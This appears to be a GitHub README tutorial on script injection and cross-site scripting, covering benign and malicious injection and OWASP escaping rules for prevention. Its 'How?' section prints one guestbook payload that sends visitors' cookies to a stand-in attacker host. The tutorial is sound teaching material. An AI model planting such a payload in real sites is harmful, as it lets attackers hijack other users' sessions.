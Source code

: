 # Script Injection

# What?
* Code injection in general is when some code is placed (injected) into a vulnerable program.

* Much like a injecting drugs, this will have a serious effect - and this won't always be a good thing. Like injecting a local anesthetic to allow a friendly operation on your teeth :


![](http://weknowyourdreamz.com/images/teeth/teeth-01.jpg)


or a hard class A that will lead to a life of theft and no teeth, ![no teeth](http://4.bp.blogspot.com/_B1LlYh6iKqs/TLD7j0p2rsI/AAAAAAAAC-Y/CwVAtJA8MmA/s1600/rotten-teeth-6.jpg)

there are benign and malign code injections.

### Benign
* Introduce a useful new column that did not appear in the original design of a search results page.

* Offer a new way to filter, order, or group data by using a
field not exposed in the default functions of the original design.

* As with programs like Dropbox, add special parts that could be used to connect to online resources in an offline program.




### Malign

* Often disastrous!

* Change, add, or remove internal code with a possibility of doing anything.

* Steal cookies - data, passwords, session IDs etc.

* Used to set up elaborate fishing scams.

* Could even be used to propagate a worm, which could entirely destroy all the code.



# How?

* A web server has a guestbook script, which accepts small messages from users, and typically receives messages such as

--- Very nice site!

However a malicious person may know of a code injection vulnerability in the guestbook, and enters a message such as (the ## are in place of < as READme files will also ignore script tags!)

Nice site,  I think I'll take it.

--- ##script> document.location="http://some_attacker/cookie.cgi?" + document.cookie ##close/script>

If another user views the page then the injected code will be executed. This code can allow the attacker to impersonate another user. However this same software bug can be accidentally triggered by an unassuming user which will cause the website to display bad HTML code.


# Preventing XSS

Here are some rules for XSS prevention. Usually rules 1 and 2 are enough.
+ RULE 0 - Never Insert Untrusted Data Except in Allowed Locations. Never put untrusted data in the following slots:

```
<script>...NEVER PUT UNTRUSTED DATA HERE...</script>   directly in a script

<!--...NEVER PUT UNTRUSTED DATA HERE...-->             inside an HTML comment

<div ...NEVER PUT UNTRUSTED DATA HERE...=test />       in an attribute name

<NEVER PUT UNTRUSTED DATA HERE... href="/test" />   in a tag name

<style>...NEVER PUT UNTRUSTED DATA HERE...</style>   directly in CSS

```

+ RULE 1 - HTML Escape Before Inserting Untrusted Data into HTML Element Content

```
<body>...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...</body>

<div>...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...</div>

any other normal HTML elements

```
Characters to escape:

```
& --> &amp;
< --> &lt;
> --> &gt;
" --> &quot;
' --> &#x27;    
/ --> &#x2F;
```

+ RULE 2 - Attribute Escape Before Inserting Untrusted Data into HTML Common Attributes

```
<div attr=...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...>content</div>     inside UNquoted attribute

<div attr='...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...'>content</div>   inside single quoted attribute

<div attr="...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...">content</div>   inside double quoted attribute

```

+ RULE 3 - JavaScript Escape Before Inserting Untrusted Data into JavaScript Data Values
+ RULE 4 - CSS Escape And Strictly Validate Before Inserting Untrusted Data into HTML Style Property Values
+ RULE 5 - URL Escape Before Inserting Untrusted Data into HTML URL Parameter Values
More on prevention rules [here](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet#HTML_entity_encoding)



## References

* [XSS article](http://www.thegeekstuff.com/2012/02/xss-attack-examples/)
* [video on cross scripting](https://www.youtube.com/watch?v=OVLz6RgOjIY)
* [video on cross scripting](https://www.youtube.com/watch?v=V79Dp7i4LRM)
* [Further articles on code injection](https://en.wikipedia.org/wiki/Code_injection)
* [Article on prevention](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet#HTML_entity_encoding)
